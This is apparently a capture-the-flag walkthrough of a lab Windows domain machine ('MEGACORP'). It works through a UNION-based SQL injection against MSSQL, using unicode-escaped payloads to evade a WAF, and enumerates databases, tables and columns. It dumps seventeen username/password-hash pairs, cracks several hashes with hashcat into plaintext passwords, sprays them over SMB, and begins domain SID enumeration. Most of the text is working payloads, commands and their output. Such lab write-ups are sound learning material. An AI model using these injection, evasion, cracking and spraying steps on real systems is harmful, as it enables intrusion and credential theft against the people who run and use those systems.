Important to add a value that will return values from the original query to see reflected data (example `a` returns values)

```
a\u0027 \u0055\u004e\u0049\u004f\u004e \u0053\u0045\u004c\u0045\u0043\u0054 1,2,3,4,5\u002d\u002d \u002d
```



Data is reflected calling 5 columns. Confirmed SQLi point.

Enumerating database version

```
a\u0027 \u0055\u004e\u0049\u004f\u004e \u0053\u0045\u004c\u0045\u0043\u0054 1,@@version,3,4,5\u002d\u002d \u002d
```



MSSQL (Microsoft SQL Server 2017 (RTM) - 14.0.1000.169 (X64))

Current Database name

```
a\u0027 \u0055\u004e\u0049\u004f\u004e \u0053\u0045\u004c\u0045\u0043\u0054 1,DB_NAME(),3,4,5\u002d\u002d \u002d
```



`Hub_DB`

All databases

`from`, `sys`, `databases` seem to be also blocked

```
a\u0027 \u0055\u004e\u0049\u004f\u004e \u0053\u0045\u004c\u0045\u0043\u0054 1,name,3,4,5 \u0046rom \u0053ys.databa\u0053es\u002d\u002d \u002d
```



`Hub_DB`, `master`, `model`, `msdb`, `tempdb`

Will focus on `Hub_DB` first

Enumerating tables from database

At this point, I asume any SQL syntax, words are blocked by WAF

table_name = `\u0054\u0041\u0042\u004C\u0045\u005F\u004E\u0041\u004D\u0045`

from = `\u0046\u0052\u004F\u004D`

information_schema.tables = `\u0049\u004E\u0046\u004F\u0052\u004D\u0041\u0054\u0049\u004F\u004E\u005F\u0053\u0043\u0048\u0045\u004D\u0041\u002E\u0054\u0041\u0042\u004C\u0045\u0053`

```
a\u0027 \u0055\u004e\u0049\u004f\u004e \u0053\u0045\u004c\u0045\u0043\u0054 1,\u0054\u0041\u0042\u004C\u0045\u005F\u004E\u0041\u004D\u0045,3,4,5 \u0046\u0052\u004F\u004D \u0049\u004E\u0046\u004F\u0052\u004D\u0041\u0054\u0049\u004F\u004E\u005F\u0053\u0043\u0048\u0045\u004D\u0041\u002E\u0054\u0041\u0042\u004C\u0045\u0053 \u002d\u002d \u002d
```



`Colleagues` and `Logins` tables

Want `Logins`

Columns

column_name = `\u0043\u004F\u004C\u0055\u004D\u004E\u005F\u004E\u0041\u004D\u0045`

where = `\u0057\u0048\u0045\u0052\u0045`

information_schema.columns = `\u0049\u004E\u0046\u004F\u0052\u004D\u0041\u0054\u0049\u004F\u004E\u005F\u0053\u0043\u0048\u0045\u004D\u0041\u002E\u0043\u004F\u004C\u0055\u004D\u004E\u0053`

`=` -> `\u003D`

```
a\u0027 \u0055\u004e\u0049\u004f\u004e \u0053\u0045\u004c\u0045\u0043\u0054 1,\u0043\u004F\u004C\u0055\u004D\u004E\u005F\u004E\u0041\u004D\u0045,3,4,5 \u0046\u0052\u004F\u004D \u0049\u004E\u0046\u004F\u0052\u004D\u0041\u0054\u0049\u004F\u004E\u005F\u0053\u0043\u0048\u0045\u004D\u0041\u002E\u0043\u004F\u004C\u0055\u004D\u004E\u0053 \u002d\u002d \u002d
```



`email`, `id`, `image`, `name`



`password`, `position`, `username`

Want only `username` and `password` to make it "easier"

Dump `Logins` table

username = `\u0055\u0053\u0045\u0052d\u004E\u0041\u004De\u0045`
password = `\u0050\u0041\u0053\u0053\u0057\u004F\u0052d\u0044`
Logins = `\u004C\u004F\u0047\u0049\u004E\u0053`

```
a\u0027 \u0055\u004e\u0049\u004f\u004e \u0053\u0045\u004c\u0045\u0043\u0054 1,\u0055\u0053\u0045\u0052d\u004E\u0041\u004De\u0045,\u0050\u0041\u0053\u0053\u0057\u004F\u0052d\u0044,4,5 \u0046\u0052\u004F\u004D \u004C\u004F\u0047\u0049\u004E\u0053\u002d\u002d \u002d
```

null

```
a' union select 1,2,(select string_agg(password,',')),4,5 from Logins-- -
```

```
a\u0027 \u0053\u0045\u004c\u0045\u0043\u0054 1,2,\u0055\u004e\u0049\u004f\u004e \u0028\u0053\u0045\u004c\u0045\u0043\u0054 string\u005Fagg\u0028\u0050\u0041\u0053\u0053\u0057\u004F\u0052d\u0044\u002C\u0027\u002C\u0027\u0029\u0029,4,5 \u0046\u0052\u004F\u004D \u004C\u004F\u0047\u0049\u004E\u0053\u002d\u002d \u002d
```

null

---
(Changed IP after machine reset)
```IP
10.129.96.37
```
---
Update `/etc/hosts`



Both of the last 2 payloads have syntax errors, manually building the queries is error prone

Query

```
a' UNION SELECT 1,username,password,4,5 FROM Logins-- -
```

*(Claude script to encode plaintext to unicode escape):*
```python
s = "a' UNION SELECT 1,username,password,4,5 FROM Logins-- -"
print(''.join(f"\\u{ord(c):04x}" for c in s))
```



```
\u0061\u0027\u0020\u0055\u004e\u0049\u004f\u004e\u0020\u0053\u0045\u004c\u0045\u0043\u0054\u0020\u0031\u002c\u0075\u0073\u0065\u0072\u006e\u0061\u006d\u0065\u002c\u0070\u0061\u0073\u0073\u0077\u006f\u0072\u0064\u002c\u0034\u002c\u0035\u0020\u0046\u0052\u004f\u004d\u0020\u004c\u006f\u0067\u0069\u006e\u0073\u002d\u002d\u0020\u002d
```

Back to BurpSuite



`aldom:9777768363a66709804f592aac4c84b755db6d4ec59960d4cee5951e86060e768d97be2d20d79dbccbe242c2244e5739`

`alyx:fb40643498f8318cb3fb4af397bbce903957dde8edde85051d59998aa2f244f7fc80dd2928e648465b8e7a1946a50cfa`

`ckane:68d1054460bf0d22cd5182288b8e82306cca95639ee8eb1470be1648149ae1f71201fbacc3edb639eed4e954ce5f0813`



`cyork:9777768363a66709804f592aac4c84b755db6d4ec59960d4cee5951e86060e768d97be2d20d79dbccbe242c2244e5739`

(Invalid domain user) `egre55:cf17bb4919cab4729d835e734825ef16d47de2d9615733fcba3b6e0a7aa7c53edd986b64bf715d0a2df0015fd090babc`

`ilee:68d1054460bf0d22cd5182288b8e82306cca95639ee8eb1470be1648149ae1f71201fbacc3edb639eed4e954ce5f0813`



`james:9777768363a66709804f592aac4c84b755db6d4ec59960d4cee5951e86060e768d97be2d20d79dbccbe242c2244e5739`

`jorden:9777768363a66709804f592aac4c84b755db6d4ec59960d4cee5951e86060e768d97be2d20d79dbccbe242c2244e5739`

`kpage:68d1054460bf0d22cd5182288b8e82306cca95639ee8eb1470be1648149ae1f71201fbacc3edb639eed4e954ce5f0813`



(Invalid domain user)`minatotw:cf17bb4919cab4729d835e734825ef16d47de2d9615733fcba3b6e0a7aa7c53edd986b64bf715d0a2df0015fd090babc`

`nbourne:fb40643498f8318cb3fb4af397bbce903957dde8edde85051d59998aa2f244f7fc80dd2928e648465b8e7a1946a50cfa`

`okent:fb40643498f8318cb3fb4af397bbce903957dde8edde85051d59998aa2f244f7fc80dd2928e648465b8e7a1946a50cfa`



`rmartin:fb40643498f8318cb3fb4af397bbce903957dde8edde85051d59998aa2f244f7fc80dd2928e648465b8e7a1946a50cfa`

`sbauer:9777768363a66709804f592aac4c84b755db6d4ec59960d4cee5951e86060e768d97be2d20d79dbccbe242c2244e5739`

(Invalid domain user) `shayna:9777768363a66709804f592aac4c84b755db6d4ec59960d4cee5951e86060e768d97be2d20d79dbccbe242c2244e5739`



`zac:68d1054460bf0d22cd5182288b8e82306cca95639ee8eb1470be1648149ae1f71201fbacc3edb639eed4e954ce5f0813`

`zpowers:68d1054460bf0d22cd5182288b8e82306cca95639ee8eb1470be1648149ae1f71201fbacc3edb639eed4e954ce5f0813`


17 credentials. Saving all entries to a file (`megacorp.hashes`)



Identifying hashes with hashcat

```
hashcat megacorp.hashes --username
```



- `10800` - SHA2-384
- `17500` - SHA3-384
- `17900` - Keccak-384
- `10870` - sha384(utf16le($pass))

Since cant fingerprint what technology created this hashes and neither have the source code, trying to crack with each mode till one or none work

```
hashcat megacorp.hashes --username -m 10800 rockyou.txt
```

No result

```
hashcat megacorp.hashes --username -m 17500 rockyou.txt
```

No result

```
hashcat megacorp.hashes --username -m 17900 rockyou.txt
```



3 hashes cracked. 
```
password1
```
```
finance1
```
```
banking1
```

```
hashcat megacorp.hashes --username -m 17900 rockyou.txt --show --outfile-format 2
```



It seems passwords are reused between accounts

Save the 3 passwords to file (`passwords.txt`)

Checking passwords against valid domain users, via SMB

```
nxc smb multimaster -u valid_users.txt -p loot/passwords.txt
```

No result, none valid

---
Hint:
My first thought was looking into the other table `Colleagues` to see if there are more entries that were not shown earlier, but doubt it, and looking the video reference video for another hint see the SQLi point can be used to discover more domain users via MSSQL functions:
1. Get raw SID
2. Decode to plaintext
3. Increment RID 
4. Convert back to raw format
5. Check if that RID matches a domain account
---

From a previous test ("Signed" machine) have a script to decode the SIDs given by MSSQL

Fist get raw SID from SQLi point

```
a' union select 1,2,SUSER_SID('MEGACORP.LOCAL\Administrator'),4,5-- -
```

Convert query to unicode escape

```
s = "a' union select 1,2,SUSER_SID('MEGACORP.LOCAL\Administrator'),4,5-- -"
print(''.join(f"\\u{ord(c):04x}" for c in s))
```
|
```
\u0061\u0027\u0020\u0075\u006e\u0069\u006f\u006e\u0020\u0073\u0065\u006c\u0065\u0063\u0074\u0020\u0031\u002c\u0032\u002c\u0053\u0055\u0053\u0045\u0052\u005f\u0053\u0049\u0044\u0028\u0027\u004d\u0045\u0047\u0041\u0043\u004f\u0052\u0050\u0007\u0064\u006d\u0069\u006e\u0069\u0073\u0074\u0072\u0061\u0074\u006f\u0072\u0027\u0029\u002c\u0034\u002c\u0035\u002d\u002d\u0020\u002d
```

Nothing

Looking at reference the syntax is different, mine was used from inde a MSSQL shell in the other test

```
a' union select 1,master.dbo.fn_varbintohexstr(SUSER_SID('MEGACORP\zac')),3,4,5-- -
```
|
```
\u0061\u0027\u0020\u0075\u006e\u0069\u006f\u006e\u0020\u0073\u0065\u006c\u0065\u0063\u0074\u0020\u0031\u002c\u006d\u0061\u0073\u0074\u0065\u0072\u002e\u0064\u0062\u006f\u002e\u0066\u006e\u005f\u0076\u0061\u0072\u0062\u0069\u006e\u0074\u006f\u0068\u0065\u0078\u0073\u0074\u0072\u0028\u0053\u0055\u0053\u0045\u0052\u005f\u0053\u0049\u0044\u0028\u0027\u004d\u0045\u0047\u0041\u0043\u004f\u0052\u0050\u005c\u007a\u0061\u0063\u0027\u0029\u0029\u002c\u0033\u002c\u0034\u002c\u0035\u002d\u002d\u0020\u002d
```

